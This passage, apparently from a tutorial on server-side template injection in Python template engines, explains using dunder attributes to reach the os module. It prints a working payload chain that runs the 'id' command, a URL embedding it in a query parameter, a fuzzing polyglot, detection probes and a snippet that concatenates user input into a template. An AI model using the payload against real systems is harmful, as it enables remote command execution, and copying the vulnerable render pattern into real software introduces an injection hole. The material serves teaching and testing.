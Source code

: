 to do this similar context work, we need to use **Dunder Methods** (As we know, python are a language that doesn't have a explicit keyword to define names of statements, if the Dunder methods doesn't exists, nothing will prevent that the programmer define a variable *len* and consequently overwrite the function *len()* causing some problems) on python3 to bypass this limitation, take the follow example:

```python
#Payload

''.__class__
.__base__
.__subclasses__()[141]
.__init__
.__globals__['sys']
.modules['os']
.popen("id")
.read()
```

```
http://vulnerable-website.com/?client-name={{ ''.__class__.__base__.__subclasses__()[141].__init__.__globals__['sys'].modules['os'].popen("id").read() }}
``` 

Ok, this really could be a little scary, but read more about **Dunder Methods** and all of that will become more clear... the point here is..... other template engines can implement similar mechanisms (including security).

The payload above imports the lib **OS** from python and execute the **id** command on bash and throw back to the screen in our example, know that we have the theory let's get more deep.

The simplest way to start is to try **Fuzzing the template** by injecting a sequence of special characteres like the follow polyglot example ```${{>%[%'"]}}%\``` in a user-controlled input, after that stay alert about the responses and **spot the differences** between the **common response** and the **given payload**.

If an **error is thrown** we can assume that the application is vulnerable and also you will be could spot what **engine is running** on back-end.

**TIP:** Some contexts the payload can go back to the front which can reflect as XSS (if you trying a XSS first, that is very common) and the SSTI goes unnoticed, it really is valid to validate both.

**TIP:** A similar context to close delimiters like DOM XSS could happen here too.
###### Plaintext context

```js
{{7*7}}
${7*7}
<%= 7*7 %>
``` 

###### Code context

```python
clientData = request.data('greeting')
engine.render("Hello {{"+clientData+"}}", data)
```
